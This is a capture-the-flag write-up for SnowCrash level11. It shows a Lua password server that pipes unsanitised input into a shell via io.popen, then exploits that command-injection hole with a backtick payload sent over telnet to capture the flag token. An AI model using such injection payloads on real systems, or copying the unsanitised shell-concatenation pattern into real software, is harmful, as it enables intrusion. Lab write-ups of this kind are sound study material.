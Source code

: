 ## level11

There’s a file `.lua`

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end

while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

I ran the hash `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0` in an [online sha1sum cracker](https://crackstation.net/) and got `NotSoEasy`. It’s not the token for `flag11` though…

I should pass the password via `telnet localhost 5151`, only problem is that the lua script pipes into sha1sum the `echo` of the password and therefore adds a `\n` at the end.

```lua
level11@SnowCrash:~$ echo "NotSoEasy" | sha1sum
62d39a9edac7bc1a68d816a5d9a491aa4e81fbcb  -
level11@SnowCrash:~$ echo -n "NotSoEasy" | sha1sum
f05d1d066fb246efe0c6f7d095f909a7a0cf34a0  -
-- This last one is the correct hash 
```

But wait a second… looking at the script I can see that the only thing that I get for guessing the password is a printed string: not very interesting.

On the other hand, my password is not sanitized in any way and sent straight to `echo` so I can try and execute my code in there with the backtick `

```bash
level11@SnowCrash:~$ telnet localhost 5151
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
Password: `getflag > /tmp/flag` # I need to redirect because the output is not printed
Erf nope..
Connection closed by foreign host.
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
